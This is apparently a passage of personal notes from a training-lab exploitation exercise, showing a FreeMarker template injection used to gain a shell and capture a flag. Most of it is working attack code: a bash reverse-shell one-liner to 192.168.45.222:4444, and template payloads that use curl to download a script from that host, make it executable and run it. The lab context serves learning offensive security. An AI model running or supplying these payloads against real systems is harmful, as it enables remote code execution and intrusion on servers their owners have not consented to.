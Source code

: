 Excellent! At this point, we can execute any command we want on the system.


##### Labs Extra Mile

![[Pasted image 20241028220746.png]]
Create Reverse shell
```bash
bash -i >& /dev/tcp/192.168.45.222/4444 0>&1
```

outputting the flag to `/tmp/revshell`
```js
${"freemarker.template.utility.Execute"?new()("curl -o /tmp/revshell http://192.168.45.222:80/revshell")}
```
![[Pasted image 20241028215456.png]]
![[Pasted image 20241028215516.png]]
changing permissions to `+x /tmp/revshell`
```js
${"freemarker.template.utility.Execute"?new()("chmod +x /tmp/revshell")}
```
executing the shell
```js
${"freemarker.template.utility.Execute"?new()("bash /tmp/revshell")}
```
![[Pasted image 20241028220556.png]]
catching the reverse shell
![[Pasted image 20241028220621.png]]
flag
![[Pasted image 20241028220653.png]]
